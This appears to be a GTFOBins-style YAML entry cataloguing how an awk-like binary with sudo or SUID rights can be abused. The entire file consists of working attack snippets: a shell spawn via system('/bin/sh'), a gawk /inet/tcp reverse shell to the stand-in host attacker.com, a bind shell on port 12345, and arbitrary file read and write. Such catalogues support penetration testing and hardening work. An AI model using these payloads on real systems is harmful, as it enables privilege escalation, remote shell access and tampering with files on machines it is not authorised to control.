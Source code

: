 ```yaml
---
functions:
  execute:
    features:
      - interactive
      - sudo-enabled
      - suid-enabled
    examples:
      - code: BINARY 'BEGIN {system("/bin/sh")}'
  reverse-shell:
    features:
      - non-interactive
      - sudo-enabled
      - suid-enabled
    examples:
      - description: Run `nc -l -p 12345` on the attacker box to receive the shell.
        code: |
          RHOST=attacker.com
          RPORT=12345
          BINARY -v RHOST=$RHOST -v RPORT=$RPORT 'BEGIN {
              s = "/inet/tcp/0/" RHOST "/" RPORT;
              while (1) {printf "> " |& s; if ((s |& getline c) <= 0) break;
              while (c && (c |& getline) > 0) print $0 |& s; close(c)}}'
  bind-shell:
    features:
      - non-interactive
      - sudo-enabled
      - suid-enabled
    examples:
      - description: Run `nc target.com 12345` on the attacker box to connect to the shell.
        code: |
          LPORT=12345
          BINARY -v LPORT=$LPORT 'BEGIN {
              s = "/inet/tcp/" LPORT "/0/0";
              while (1) {printf "> " |& s; if ((s |& getline c) <= 0) break;
              while (c && (c |& getline) > 0) print $0 |& s; close(c)}}'
  file-read:
    features:
      - sudo-enabled
      - suid-enabled
    examples:
      - code: |
          LFILE=file_to_read
          BINARY '//' "$LFILE"
  file-write:
    features:
      - sudo-enabled
      - suid-enabled
    examples:
      - code: |
          LFILE=file_to_write
          BINARY -v LFILE=$LFILE 'BEGIN { print "data" > LFILE }'
---
```

